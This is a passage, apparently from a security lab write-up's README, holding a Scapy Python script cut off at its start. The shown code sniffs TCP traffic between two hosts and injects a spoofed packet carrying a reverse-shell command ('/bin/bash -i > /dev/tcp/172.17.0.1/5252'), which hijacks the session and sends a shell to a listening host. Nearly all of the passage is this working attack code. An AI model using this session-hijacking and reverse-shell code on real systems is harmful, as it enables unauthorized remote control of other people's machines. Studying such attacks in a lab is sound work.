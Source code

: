 ```python
               dport = old_tcp.dport, 
               seq = old_tcp.seq,
               ack = old_tcp.ack, 
               flags = "A"
             )
	data = "\r\n /bin/bash -i > /dev/tcp/172.17.0.1/5252 0<&1 2>&1\r\n"
	pkt = ip/tcp/data
	send(pkt, verbose=0)
	ls(pkt)
	quit()
    
f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
sniff(filter=f, prn=spoof)
```

![image-20220411001747684](readme.assets/image-20220411001747684.png)

